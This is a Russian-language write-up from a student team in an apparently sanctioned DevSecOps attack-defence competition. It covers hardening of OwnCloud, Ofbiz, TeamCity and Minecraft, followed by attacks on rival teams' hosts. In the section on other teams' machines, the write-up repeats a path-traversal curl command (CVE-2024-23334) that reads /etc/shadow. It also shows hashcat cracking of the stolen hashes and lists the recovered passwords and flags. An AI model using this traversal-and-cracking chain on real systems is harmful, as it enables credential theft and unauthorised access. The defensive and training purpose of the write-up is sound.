










# DevSecOps-2024, МИИГАиК

Общая задача - развернуть выданный софт из архива [source_apps](https://drive.google.com/file/d/1Y2m_csKkBdyWtI-DYaOqNG0VYa29YXT6/view?usp=sharing)

Описание общих сервисов:

1. OwnСloud (Необходимо развернуть предлагаемых код в docker-контейнере. Может быть полезен dockerfile из: https://github.com/owncloud-docker/server. Туда необходимо поместить файл с секретом от имени обычного пользователя)
2. Apache Ofbiz - необходимо нативно развернуть из исходного кода. Настроить простейший интернет магазин (eCommerce)
3. TeamCity - необходимо наладить процесс сборки какого-либо проекта с открытым исходным кодом с GitHub.
4. Уникальный софт - Minecraft, который должен работать.

Во "внешний мир" должны смотреть 2 сервиса: ApacheOfbiz и уникальный софт. Другие могут функционировать во внутренней сети.

Примечание: уникальный сервис запрещено заворачивать в докер контейнер.

# Ход соревнований

## Выделенная инфраструктура

Выданные данные от машин:

    Login: player
    Password: 
    Hosts:
    198.51.100.14 -- bastion
    172.18.13.3
    172.18.13.4

Для осуществления доступа в докальную сеть был выдан VPN web interface — firezone:

    VPN interface
    Login: TheBoys2@devsec.ops
    Password: 

    Доступ на сервера осуществлялся через бастион хост. 
    Бастион хост — тоже наш сервер.
    Этот же сервер смотрит в сеть эмулирующую интернет. 

    Для получения доступа интерент использовался:
    socks5h://198.51.100.1:9160

## Настройка proxy

Для настройки интернета прописываем в /etc/apt/apt.conf:

    Acquire::http::proxy "socks5h://198.51.100.1:9160"; (для BastionHost)
    Acquire::http::proxy "socks5h://172.18.13.2:9160"; (для машин 172.18.13.[34])

## Проверка инфраструктуры

Проверим, какие учетные записи есть на машине:

    cat /etc/shadow

Замечаем, что учетки admin и appachee - лишние (org для организацторов, player - наша). Переберем хэши паролей с помощью hashcat:

    sudo hashcat -m 1800 -a 0 -o admin admin.hash ~/rockyou.txt --force
    sudo hashcat -m 1800 -a 0 -o appachee appachee.hash ~/rockyou.txt --force

Результат перебора:

Учетка: appachee — пароль: admin

Учетка: admin — пароль: cookie

***

Удалим учетные записи, так как это большая уязвимость:

    userdel admin
    userdel appachee

Также заметим, что admin мог использовать sudo без пароля из-за следующих строк в /etc/sudoers:

    %admin ALL=(ALL) ALL
    admin ALL=(ALL) NOPASSWD:ALL

Также удаляем их.

***

После проверки netstat заметили, что есть запущенный сервис python3 на порту 53928:

systemd.service этого сервиса:

    [Unit]
    Description=Srv service 
    After=network.target

    [Service]
    Type=simple
    User=root
    WorkingDirectory=/var/opt/srv/
    ExecStart=/usr/bin/python3 srv.py

    [Install]
    WantedBy=multi-user.target

File /var/opt/srv/srv.py:

    from aiohttp import web

    async def index(request):
        return web.Response(text="
Hello, from TheBoys2 Team!\n\n\n
 ", content_type='text/html')

    app = web.Application()
    app.router.add_routes([
        web.static("/static", "./static/", follow_symlinks=True),
    ])
    app.router.add_get('/', index)
    web.run_app(app, host='0.0.0.0', port=53928)

static/team.webp:

В этом сервисе python3 обнаружили уязвимость [CVE-2024-23334](https://github.com/jhonnybonny/CVE-2024-23334). Пробуем проэксплуатировать:

Но, к сожалению, неудачно.

У себя эту уязвимость закрыли (удалили сервис):

    sudo rm -rf /var/opt/srv.py
    sudo systemctl stop srv
    sudo systemctl disable srv
    sudo rm -rf /etc/systemd/system/srv.service
    sudo systemctl daemon-reload

## Minecraft

Для развертки предоставлен minecraft server версии 1.18 с уязвимостью Log4j. Для исправления уязвимости необходимо при запуске сервера прописать флаги, отключающие исполнение вредоносного кода через систему логирования. Устанавливаются флаги в строке запуска сервера перед аргументом "-jar":

    -Dlog4j2.formatMsgNoLookups=true
    -Dcom.sun.jndi.ldap.object.trustURLCodebase=false

Основные настройки в файле server.properties:

    online-mode=false
    server-ip=198.51.100.14
    server-port=49999
    white-list=false

Для дополнительной безопасности создаем пользователя minecraft, из под которого будем запускать systemd сервис minecraft:

    sudo adduser minecraft

Создаем группу minecraft и добавляем туда minecraft:

    sudo groupadd minecraft
    sudo usermod -a -G minecraft minecraft

Помещаем исходный код minecraft сервера в /opt/minecraft и предварительно настраиваем согласно регламенту:

    sudo mv ./minecraft/ /opt/

Minecraft server работает на java-17, поэтому после установки java группе minecraft необходимо дать права на использование соответствующих директорий:

    sudo chown -R root:minecraft /home/minecraft /opt/minecraft /usr/lib/jvm/java-17-openjdk-amd64/bin/java

    sudo chmod -R 750 /home/minecraft /opt/minecraft /usr/lib/jvm/java-17-openjdk-amd64/bin/java

    sudo chmod -R 770 /opt/minecraft

Создаем systemd service в каталоге /etc/systemd/system/minecraft.service:

    [Unit]
    Description=TheBoys2
    Wants=network-online.target
    After=network-online.target

    [Service]
    User=root
    WorkingDirectory=/opt/minecraft

    ExecStart=/usr/lib/jvm/java-17-openjdk-amd64/bin/java -Xmx1024M -Xms1024M -Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -jar server.jar

    Restart=always
    RestartSec=30

    StandardInput=null

    [Install]
    WantedBy=multi-user.target

## TeamCity

Локальное сканирование приложения через OWASP ZAP показало, что есть уязвимость инъекции полезной нагрузки. Нашли CVE-2024-27198, которая позволяет не только делать инъекцию, но и исполнять произвольный код.

Найденный эксплойт: https://github.com/W01fh4cker/CVE-2024-27198-RCE

Фикс уязвимости осуществляется через подгрузку [плагина](https://blog.jetbrains.com/teamcity/2024/03/additional-critical-security-issues-affecting-teamcity-on-premises-cve-2024-27198-and-cve-2024-27199-update-to-2023-11-4-now/) в админ панели.

Развертка сервиса очень простая. Нужно было запустить sh скрипт из архива:

    bin/runAll.sh

Запуск на сервере сделаем аналогично через отдельную учетную запись с правом записи только в директориях /home/teamcity /opt/teamcity

    sudo chown -R root:teamcity /home/teamcity /opt/teamcity

    sudo chmod -R 770 /home/teamcity /opt/teamcity

## Эксплуатация машин других команд

Вектор атаки получился следующий:

В ходе пентеста выяснилось, что 

Флаги находятся по следующим путям:

    sudo cat /var/www/flag
    sudo cat /root/flag

### Команда CatOS

IP-адрес (BastionHost): 198.51.100.2

Сканируем сеть:

    netstat -tulpn

Уязвимый сервис: http://198.51.100.2:51348/

Получаем хэши паролей:

    curl --path-as-is 198.51.100.2:51348/static/../../../../etc/shadow

Подбор пароля:

    sudo hashcat -m 1800 -a 0 -o admin admin.hash ~/rockyou.txt --force

admin:123456

appachee:admin

Поиск флагов:

    bastion:
    /root/flag 94C200F2-40E8-5A7C-8AC9-31CAC42607C3
    /var/www/flag 3A5F437D-6C92-599B-8DA7-0F588D819D91

    host1:
    /var/www/flag 1B3DF883-ECC5-50B8-9184-689552389A16

    host2:
    /var/www/flag 81AD80EB-6877-5921-8B0B-926F9786381C

### Команда CodeRegalità

IP-адрес (BastionHost): 198.51.100.3

Уязвимый сервис: http://198.51.100.3:54393/

admin:123456

appachee:admin

Поиск флагов:

    bastion:
    /root/flag 1BC6D049-17A4-5862-91F7-7B681021E019
    /var/www/flag DEF821E5-1E35-530F-AC3E-FA1533F03869

    host1:
    /var/www/flag FEA2A1FB-B656-54BA-A860-21EC1C67E62D

    host2:
    /var/www/flag 1990179F-80A5-5D8A-914A-37C89247B3FF

### Команда DevSecSquad

IP-адрес (BastionHost): 198.51.100.4

Уязвимый сервис: http://198.51.100.4:52456/

admin:master

appachee:admin

Поиск флагов:

    bastion:
    /root/flag 4A834A09-33F5-5682-95D9-6DB368FEB7C9
    /var/www/flag 7E69E5C5-8305-5DB3-944B-B696AC28AA3C

    host1:
    /var/www/flag D4FA39C7-B763-593E-AE97-FEC27805D09F

    host2:
    /var/www/flag EF5BC479-9C96-5D9C-B13B-A2610CBBFE08

### Команда DOS

IP-адрес (BastionHost): 198.51.100.5

Уязвимый сервис: http://198.51.100.5:53901/

admin:123123

appachee:admin

Поиск флагов:

    bastion:
    /var/www/flag 30ABD6D5-4862-5C44-A215-DE652E6652D3
    /root/flag 90E6AB7B-3363-59AC-988A-42807D2B04ED

    host1:
    /var/www/flag FB730914-13C9-53A7-90B3-333B09CD2780

    host2:
    /var/www/flag 9181C734-03D7-5A29-B0F9-310830C9BCCD

### Команда Ушастики

IP-адрес (BastionHost): 198.51.100.6

Уязвимый сервис: http://198.51.100.6:51681/

admin:merlin

appachee:admin

Поиск флагов:

    bastion:
    /root/flag 3078F14A-5FAC-5C24-9129-ADC0913B5260
    /var/www/flag D03D16DD-71BA-5142-B465-124C3FCA7C4C

    host1:
    /var/www/flag EC67AD3B-B7C1-5C3D-9E0A-47BD44D575D4

    host2:
    /var/www/flag D5ACEC26-9AEF-5F95-B84A-DA215F566064

### Команда LazyClowns

IP-адрес (BastionHost): 198.51.100.7

Уязвимый сервис: http://198.51.100.7:54143/

admin:abc123

appachee:admin

Поиск флагов:

    bastion:
    /root/flag 3917C47C-BAC2-552D-806F-FA53CE76AAC7
    /var/www/flag B74E260F-DC2E-505F-B6DF-87DBDA996DDA

    host1:
    /var/www/flag 8723F626-E18A-5A9B-9ABB-0902D7F6C553

    host2:
    /var/www/flag 58557B7B-1241-57CF-BCE2-28E763A4F087

### Команда LazyClowns

IP-адрес (BastionHost): 198.51.100.8

Уязвимый сервис: http://198.51.100.8:52333/

admin:lakers

appachee:admin

Поиск флагов:

    bastion:
    /root/flag E9024525-69EC-5B55-B4C0-64A99D736BA1
    /var/www/flag F6B1EAE8-0196-561A-B866-351BB9E598CC

    host1:
    /var/www/flag 2E61ED95-203F-5FA7-B359-A68D83A2CF6A

    host2:
    /var/www/flag 7E750724-7937-5803-B14A-9D4A0280CE5B

### Команда MG-13

IP-адрес (BastionHost): 198.51.100.9

Уязвимый сервис: http://198.51.100.9:51983/

admin:monkey

appachee:admin

Поиск флагов:

    bastion:
    /root/flag 55857328-B05D-5782-99EA-F743A5CA18E3
    /var/www/flag D1B88171-F94C-56AD-BB93-655133DDF92F

    host1:
    /var/www/flag 8B8ED33A-5426-5693-B537-8F76F2F5BD94

    host2:
    /var/www/flag 31BA2CB2-B507-58F7-A0DD-5DBAD2C44A6D

### Команда PhoenixIT

IP-адрес (BastionHost): 198.51.100.10

Уязвимый сервис: http://198.51.100.10:52036/

admin:shadow

appachee:admin

Поиск флагов:

    bastion:
    /root/flag 927E9602-2E11-57BC-8482-E39E2DDEC058
    /var/www/flag 182A9B73-5D27-566C-866B-204DB25F50A4

    host1:
    /var/www/flag 99EC31F7-4188-5E14-A8CA-7EC2785754EC

    host2:
    /var/www/flag B477D400-2693-51C7-978F-7478840CBA2C

### Команда rm -r

IP-адрес (BastionHost): 198.51.100.11

Уязвимый сервис: http://198.51.100.11:51823/

admin:flower

appachee:admin

Поиск флагов:

    bastion:
    /root/flag 26303964-D955-50B2-8647-1D31C74434E1
    /var/www/flag E7520085-3AD5-5156-89CE-AA0A35D6D5CE

    host1:
    /var/www/flag 609A96B8-F7AC-50F2-B580-0F0F96CC5F5E

    host2:
    /var/www/flag 1C3FA796-9CC0-5CA1-87AA-63E6CEAE27B9

### Команда Space Cats

IP-адрес (BastionHost): 198.51.100.12

Уязвимый сервис: http://198.51.100.12:53267 (закрыт)

    curl --noproxy "*" --path-as-is localhost:53267/static/../../../../etc/shadow

admin:passwd

appachee:admin

Поиск флагов:

    bastion:
    /root/flag 368A2541-6847-5B32-B092-F863EE87A3AC
    /var/www/flag C24F624A-23C0-533F-994D-6D07649A049F

    host1:
    /var/www/flag 07E048CE-FE4E-5943-8FAA-38449ADE6B5C

    host2:
    /var/www/flag A25110CE-12A5-5CF4-AD53-B75DEC699B92

***

# Команда:
- Калмыков Святослав (капитан)
- Дзержкович Владимир
- Акимов Гаджирза
- Рамазанов Рауль
